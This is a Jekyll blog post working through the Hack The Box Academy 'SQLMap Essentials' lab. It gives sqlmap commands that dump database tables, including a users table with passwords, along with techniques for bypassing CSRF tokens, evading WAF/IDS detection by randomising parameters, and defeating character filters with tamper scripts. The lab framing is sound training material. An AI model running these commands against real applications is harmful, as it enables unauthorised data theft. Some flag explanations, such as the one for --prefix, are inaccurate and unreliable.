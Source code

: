 ```yaml
---
layout: post
title:  "Hack The Box - Academy - SQLMap Essentials"
date:   2024-10-13 23:07
image:  /images/htb/sqlmap_essentials/logo.png
tags:   [sqlmap,cbbh]
categories: [htbacademy]
---
```


><b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/58/section/509">SQLMap Essentials</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sqlmap_essentials/Sqlmap_Essentials_Module_Cheat_Sheet.pdf">SQLMap - Cheat Sheet</a>
<br/>

### Intercepting and Saving Requests via Burp Suite:
1. `Enable FoxyProxy`: Ensure that FoxyProxy is enabled and correctly configured to route traffic through Burp Suite.
1. `Capture the Request`: In Burp Suite, intercept the HTTP request you want to analyze.
1. `Save the Request`: Right-click on the intercepted request and select Copy to File. Choose a location on your system to save the request.
![Save Burp Suite Request](/images/htb/sqlmap_essentials/burp-suite-save-request.png)
<hr/>

### Running SQLMap on an HTTP Request - Exercises

#### What's the contents of the table flag2 (Case #2) - [Post parameter]
```
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```

- `-r Case2.txt`: This option specifies that SQLmap should read the HTTP request from the file Case2.txt. The file typically contains the raw HTTP request, including headers, cookies, etc., needed for the injection test.
- `--threads 10`: Runs SQLmap using 10 threads to speed up the scanning process.
- `--dump -T flag2`: Instructs SQLmap to dump (extract) all data from the table named flag2.
- `--batch`: Runs SQLmap in non-interactive mode, automatically using default options when prompts appear, which is useful for scripting or automation.

#### What's the contents of table flag3? (Case #3) - [Cookie value]
Save the HTTP request intercepted by Burp Suite, and observe that the `id` parameter is passed through the `Cookie` header.
```
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
- `-p cookie:` This flag specifies the parameter to be tested for SQL injection. In this case, it’s instructing sqlmap to focus on the cookie parameter found in the request. If the cookie contains something like id=123, SQLmap will target that part for testing.

#### What's the contents of table flag4? (Case #4) - [JSON value]
```
sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch
```
<hr/>

### Attack Tuning - Exercises

#### What's the contents of table flag5? (Case #5) - [OR SQLi]

`The Hack The Box machine is lagging, resulting in incorrect decoding. For example: HTB{700_mucl_yIIyaqu7_w0r7h_17}. To ensure accurate decoding, use the --time-sec option to mitigate issues caused by the lagging server.`

![HTB Lagging](/images/htb/sqlmap_essentials/case5-lagging.png)

```
sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk
=3 --fresh-queries
```
- `--no-cast`: This option disables automatic type casting of data. When enabled, `sqlmap` tries to cast data types (e.g., converting strings to integers), which might not be necessary or could lead to incorrect results. Disabling it can sometimes provide more accurate outcomes.
- `--dbms=MySQL`: This flag specifies the database management system to target. By setting it to `MySQL`, you instruct `sqlmap` to use techniques specifically for exploiting MySQL databases.
- `--technique=T`: This option tells sqlmap to use only the "time-based blind" SQL injection technique for testing. The "T" represents time-based blind SQL injection, which relies on the time it takes to receive a response to infer information about the database.
- `--time-sec=10`: Sets the number of seconds to wait before considering a response to be delayed. In this case, sqlmap will wait for 10 seconds to determine if the server is responding slowly, which helps in time-based SQL injection techniques.
- `--level=5`: This option sets the level of tests to perform. Levels range from 1 to 5, with level 5 being the most thorough. It increases the number of tests that sqlmap conducts, which can lead to a better chance of discovering vulnerabilities.
- `--risk=3`: Sets the risk level for tests. Risk levels range from 0 to 3, with 3 being the highest. Higher risk levels enable more aggressive tests, which may be more likely to exploit vulnerabilities.
- `--fresh-queries`: This flag tells sqlmap to ignore cached data and to re-execute all queries against the database. This ensures that any changes to the database since the last query execution are accounted for.

#### What's the contents of table flag6? (Case #6) - [Non-standard boundaries]

```
sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'
```
- `--prefix=`: This flag allows you to specify a prefix to prepend to the extracted data.

#### What's the contents of table flag7? (Case #7) - [UNION SQLi with adjustments]
`We should verify that the number of columns in the UI is 5`
```
sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```
- `--union-cols=5`: Specifies the number of columns to be used in a UNION query during the SQL injection exploitation. By setting this flag to 5, you are instructing sqlmap to assume that the vulnerable query returns 5 columns. This is important for constructing valid UNION queries, as both the original and injected queries must have the same number of columns to work correctly.

<hr/>

### Database Enumeration & Advanced Database Enumeration - Exercises
#### What's the contents of table flag1 in the testdb database? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch
```

#### What's the name of the column containing "style" in it's name? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --search -C style --batch
```

#### What's the Kimberly user's password? (Case #1)
```
sqlmap -r Case1.txt --threads 10 --dump -D testdb -T users --batch
```

### Bypassing Web Application Protections
#### What's the contents of table flag8? (Case #8) - [anti-CSRF token bypass]
```
sqlmap -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
```
- `--csrf-token=t0ken`: This flag is used to specify a CSRF (Cross-Site Request Forgery) token. Many modern web applications use CSRF tokens to prevent unauthorized actions on behalf of a user.
- In this case, `t0ken` is the placeholder for the actual CSRF token that the web application is using. Sqlmap will substitute this token in each request to bypass CSRF protection

#### What's the contents of table flag9? (Case #9) - [Unique ID]
```
sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
- `--randomize=uid`: The `--randomize` flag is used to randomize the value of a specific parameter (in this case, `uid`) in each HTTP request. This is often done to avoid detection by web application firewalls (WAFs) or intrusion detection systems (IDS).
- Randomizing a parameter like `uid` simulates different users, making the attack harder to detect by automated defenses that might trigger if the same request is made repeatedly.

#### What's the contents of table flag10? (Case #10) - [Primitive protection]
```
sqlmap -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch
```

#### What's the contents of table flag11? (Case #11) - [Filtering of characters '<', '>']
```
sqlmap -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
```
<hr/>

### OS Exploitation - Exercises
#### Try to use SQLMap to read the file "/var/www/html/flag.txt".
```
```
#### Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host
```
```
<hr/>